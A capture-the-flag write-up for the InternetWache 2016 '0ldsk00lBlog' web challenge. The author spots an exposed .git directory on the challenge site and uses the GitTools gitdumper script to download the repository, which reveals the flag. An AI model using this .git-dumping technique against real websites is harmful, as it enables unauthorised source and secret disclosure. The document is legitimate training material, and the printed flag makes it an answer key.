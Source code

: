 #0ldsk00lBlog
###(web80, solved by 264)


>Description: I stumbled across this kinda oldskool blog. I bet it is unhackable, I mean, there's only static HTML.

>Service: https://0ldsk00lblog.ctf.internetwache.org/

First things first, go to the service and then browse the page and source code:

<html>
<head>
	<title>0ldsk00l</title>
</head>
<body>

	<h1>Welcome to my 0ldsk00l blog.</h1>
	<p>
		Now this is some oldskool classic shit. Writing your blog manually without all this crappy bling-bling CSS / JS stuff.
	</p>

	<h2>2016</h2>
	<p>
		It's 2016 now and I need to somehow keep track of my changes to this document as it grows and grows. All people are talking about a tool called 'Git'. I think I might give this a try.
	</p>

	<h2>1990-2015</h2>
	<p>
		Hmm, looks like totally forgot about this page. I should start blogging more often.
	</p>

	<h2>1990</h2>
	<p>
		I proudly present to you the very first browser for the World Wide Web. Feel free to use it to view my awesome blog.
	</p>

	<h2>1989</h2>
	<p>
		So, yeah, I decided to invent the World Wide Web and now I'm sitting here and writing this.
	</p>
</body>
</html>

Looking at the second paragraph:
`All people are talking about a tool called 'Git'. I think I might give this a try.`

the first thing I wanted to do was check if the website contained a git repo.
`https://0ldsk00lblog.ctf.internetwache.org/.git`

## Forbidden
### You don't have permission to access /.git/ on this server.

This is promising as it verifies that Git is there. The next obvious thing to do is to check and see if we can directly access some git files. The files I tried first are the log files:

`https://0ldsk00lblog.ctf.internetwache.org/.git/logs/HEAD`

Log Results:

```
0000000000000000000000000000000000000000 14d58c53d0e70c92a3a0a5d22c6a1c06c4a2d296 Sebastian Gehaxelt <github@gehaxelt.in> 1453427711 +0100  commit (initial): Initial commit
14d58c53d0e70c92a3a0a5d22c6a1c06c4a2d296 dba52097aba3af2b30ccbc589912ae67dcf5d77b Sebastian Gehaxelt <github@gehaxelt.in> 1453427733 +0100  commit: Added next post
dba52097aba3af2b30ccbc589912ae67dcf5d77b 26858023dc18a164af9b9f847cbfb23919489ab2 Sebastian Gehaxelt <github@gehaxelt.in> 1453427864 +0100  commit: Added another post
26858023dc18a164af9b9f847cbfb23919489ab2 8c46583a968da7955c13559693b3b8c5e5d5f510 Sebastian Gehaxelt <github@gehaxelt.in> 1453427881 +0100  commit: My recent blogpost
```

Next, I used a tool called `gitdumper` from `GitTools`

`https://github.com/internetwache/GitTools`

Description: `A repository with 3 tools for pwn'ing websites with .git repositories available`

`./gitdumper.sh https://0ldsk00lblog.ctf.internetwache.org/.git /tmp/git-dump`

Running `git-status` inside the cloned git project shows the output of a single file: `index.html`

Next up, I ran `git checkout .` providing me with the `index.html` file.

Finally, I ran `git show` and was able to see the diff and pick up the flag: `IW{G1T_1S_4W3SOME}`

![Flag](https://raw.githubusercontent.com/Ninjex/Wargame-Writeups/master/CaptureTheFlag/2016/InternetWache-CTF/web80/web80.png "Flag")
